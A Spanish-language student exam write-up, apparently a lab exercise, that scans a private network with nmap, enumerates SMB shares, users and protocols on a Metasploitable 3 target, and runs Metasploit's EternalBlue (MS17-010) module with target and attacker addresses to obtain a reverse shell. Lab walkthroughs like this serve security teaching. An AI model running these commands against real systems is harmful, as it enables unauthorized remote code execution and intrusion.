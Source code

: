 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [Reconnaissance, Weaponization , Delivery / Exploitation, Installation ,Actions on Object, Conclusions]
tags: [NMAP, Kali Linux , Metasploit]  # TAG names should always be lowercase
---
```

# **2.1. Escaneo de Red y Enumeración de Servicios** 
Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
Tip: Investiga cuáles son los 02 puertos asociados con el servicio SMB. Luego, investiga como puedes usar nmap con el flag --script para una enumeración detallada. Al analizar el output del comando, buscar específicamente el término SMBv1 o el protocolo NT LM 0.12 en la lista de protocolos. Ello indicará la presencia del servicio SMBv1.
Escribe el comando que usaste en Nmap y explica brevemente cómo determina si SMBv1 está activo.

![IMG1](/assets/image1.png)

Realizamos habilitar el rol file service.

![IMG2](/assets/image2.png)

Para descubrir los servicios activos en la máquina objetivo y verificar si SMBv1 está habilitado, se puede utilizar el siguiente comando Nmap:

![IMG3](/assets/image3.png)

![IMG4](/assets/image4.png)

El comando sudo nmap -sn 10.0.2.0/24 (privilegio administrador ) realiza un escaneo de red de tipo ping (TCP SYN) en la red 10.0.2.0/24, que abarca 256 direcciones IP (de 10.0.2.1 a 10.0.2.254).

![IMG5](/assets/image5.png)

Los dos puertos más comúnmente asociados con el servicio SMB (Server Message Block) son:
Puerto 139 (NetBIOS-ssn): Este puerto se utiliza para el tráfico SMB/CIFS (Common Internet File System) a través de NetBIOS. 
 Puerto 445 (Microsoft-ds): Este puerto se utiliza para el tráfico SMB/CIFS directamente sobre TCP/IP, sin utilizar NetBIOS.
En Metasploitable 3 nos  muestra la conexiones locales con los puertos.

![IMG6](/assets/image6.png)

![IMG7](/assets/image7.png)

smb-enum-shares:
•	Este script enumera los recursos compartidos SMB disponibles en la máquina objetivo.
•	El resultado mostrará una lista de los recursos compartidos, junto con información como el nombre del recurso, los permisos de acceso, y si el recurso está oculto o no.
smb-enum-users:
•	Este script enumera los usuarios del sistema operativo a los que se puede acceder a través de SMB.
•	El resultado mostrará una lista de usuarios, junto con su nombre de usuario, identificador de usuario (RID) y otros detalles.
smb-protocols:
•	Este script verifica qué versiones de SMB (incluyendo SMBv1) están habilitadas en el sistema.
•	El resultado mostrará una lista de los protocolos SMB soportados por el servidor, incluyendo si SMBv1 está presente.

![IMG8](/assets/image8.png)

El proceso para escanear la red y enumerar los servicios activos, específicamente los relacionados con SMB, en la máquina objetivo usando Nmap es el siguiente:
1.	Utilizar el comando nmap -sn 10.0.2.0/24 para realizar un escaneo de tipo ping en la red 10.0.2.0/24 y determinar qué hosts están activos.
2.	Una vez identificados los hosts activos, utilizar el comando nmap -p139,445 --script=smb-enum-shares,smb-enum-users,smb-protocols  10.0.2.4 para enumerar los servicios SMB.

# **2.2. Exploración de la Vulnerabilidad (2 puntos)
![IMG9](/assets/image9.png)
![IMG10](/assets/image10.png)

El funcionamiento :
msfconsole -q
Es la interfaz de línea de comandos principal del framework Metasploit, una herramienta de pruebas de penetración ampliamente utilizada en el mundo de la seguridad informática.
use exploit/windows/smb/ms17_010_eternalblue 
El Funcionamiento del módulo exploit/windows/smb/ms17_010_eternalblue:
1.	El módulo aprovecha la vulnerabilidad EternalBlue (MS17-010) en la implementación de SMBv1 en sistemas operativos Windows.
2.	Cuando se ejecuta este módulo, Metasploit envía una serie de solicitudes SMB especialmente diseñadas al sistema objetivo.
3.	Estas solicitudes SMB explotan la vulnerabilidad EternalBlue, lo que permite la ejecución de código arbitrario en el sistema objetivo.
4.	Una vez que se logra la ejecución de código, el módulo establece una conexión de tipo reverse shell, donde el sistema objetivo se conecta de vuelta a la máquina atacante, permitiendo así el acceso remoto al sistema.

![IMG11](/assets/image11.png)
Donde los comandos 


set RHOSTS 10.0.2.4

set LHOST 10.0.2.9
 
Donde <10.0.2.4 > es la dirección IP de la máquina objetivo y <10.0.2.9> es la dirección IP de la máquina atacante.
Verificar que el módulo esté configurado correctamente:

show options

Ejecutar el módulo para explotar la vulnerabilidad:
Exploit



